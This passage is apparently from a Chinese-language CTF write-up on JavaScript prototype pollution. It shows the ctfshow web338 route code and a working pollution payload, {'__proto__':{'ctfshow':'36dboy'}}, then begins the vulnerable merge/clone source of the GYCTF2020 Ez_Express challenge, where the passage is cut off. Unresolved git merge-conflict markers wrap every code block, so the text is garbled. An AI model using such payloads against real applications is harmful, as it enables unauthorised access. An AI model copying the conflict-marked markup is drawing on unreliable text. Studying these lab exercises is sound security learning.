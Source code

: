 这次成功把原型链污染了。

#### 例题：

**web338**

源码：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

secert.ctfshow==='36dboy' 这里需要把原型链污染，将 Object 类里面添加一个键值对 {"ctfshow":"36dboy"}

Payload:

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"__proto__":{"ctfshow":"36dboy"}}
```

**buuctf\[GYCTF2020\]Ez\_Express**

源码：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }
```